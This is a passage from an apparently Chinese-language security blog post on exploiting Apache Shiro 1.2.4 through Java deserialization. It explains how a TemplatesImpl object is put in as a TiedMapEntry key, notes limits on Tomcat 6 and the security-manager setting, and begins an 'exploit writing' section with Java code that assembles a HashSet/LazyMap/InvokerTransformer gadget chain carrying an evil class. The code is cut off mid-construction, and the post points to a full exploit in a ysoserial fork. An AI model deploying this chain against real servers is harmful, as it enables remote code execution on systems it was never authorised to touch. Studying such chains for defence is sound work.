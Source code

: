 这里就接上了我们前面讨论的，将构造好的`TemplatesImpl`（key）作为`InvokerTransformer.transform`函数的`input`传入，我们就可以将templates gadgets串起来了。

简单来说，我们将`CommonsCollections5,6,9`构造链中的`TiedMapEntry`的key用了起来。

```java
final Object templates = Gadgets.createTemplatesImpl(command);
// TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo"); //原来的利用方式
TiedMapEntry entry = new TiedMapEntry(lazyMap, templates);
```

这里将无意义的`foo`改造成了触发`TemplatesImpl.newTransformer`的trigger。

而在`TiedMapEntry`前的利用链，在原生shiro环境下，并不冲突（没有数组类型的对象），可以正常反序列化。这一部分就省略了。

#### 20200108补充

其实createTemplatesImpl的利用方式中还是存在数组形式的，byte[]数组用于存储evil class。但是在tomcat 7及以上的环境下，java的原生数据类型的数组还原不影响反序列化，只针对对象级别的数组还原。而tomcat6的实现方式直接不允许数组类型的还原，也就是说该利用链在tomcat6的环境下是成功不了的。

### 20200109补充

当应用开启了security manager时，需要设置`-Djdk.xml.enableTemplatesImplDeserialization=true`

![image-20200109193558744](/images/study-java-deserialized-shiro-1-2-4-20191110/image-20200109193558744.png)

# 0x04 EXP编写

这里其实可以构造出好几个链，我这里就拿`HashSet`为例，完整的exp见[MyYsoserial](https://github.com/wh1t3p1g/ysoserial)中的`CommonsCollections10`

```java
final Object templates = Gadgets.createTemplatesImpl(command);// 构造带有evil class bytes的TemplatesImpl
// 构造InvokerTransformer，填充无害的toString函数
final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

final Map innerMap = new HashMap();
// 构造LazyMap的factory为前面的InvokerTransformer
final Map lazyMap = LazyMap.decorate(innerMap, transformer);
// 填充TiedMapEntry的map（lazyMap）和key（TemplatesImpl）
TiedMapEntry entry = new TiedMapEntry(lazyMap, templates);

HashSet map = new HashSet(1);
map.add("foo");
// 下述代码将entry填充到HashSet的node的key上，可以使得HashSet在put的时候调用TiedMapEntry的hashCode函数
Field f = null;
try {
  f = HashSet.class.getDeclaredField("map");
} catch (NoSuchFieldException e) {
  f = HashSet.class.getDeclaredField("backingMap");
}
Reflections.setAccessible(f);
HashMap innimpl = null;
innimpl = (HashMap) f.get(map);

Field f2 = null;
try {
  f2 = HashMap.class.getDeclaredField("table");
} catch (NoSuchFieldException e) {
  f2 = HashMap.class.getDeclaredField("elementData");
}
Reflections.setAccessible(f2);
Object[] array = new Object[0];
```